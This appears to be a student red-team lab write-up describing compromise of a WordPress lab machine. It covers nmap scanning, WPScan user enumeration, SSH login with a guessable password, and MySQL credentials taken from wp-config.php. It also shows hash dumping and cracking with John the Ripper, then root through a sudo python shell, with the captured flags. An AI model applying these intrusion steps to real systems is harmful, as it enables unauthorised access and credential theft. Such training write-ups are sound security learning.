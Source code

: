 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash
$ nmap -sV 192.168.1.110

  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
    - **Exploit Used**
      - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 -Flag 4 can also also be foud using the following method
   - Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - show databases;`
    - use wordpress;` 
    - show tables;`
    - select * from wp_users;`
![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 - 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c 'import os; os.system("bin/bash/")
                - `cd /root`
                - `ls`
                - `cat flag4.txt`
                
![Falg 4](Screenshots/flag4.png)

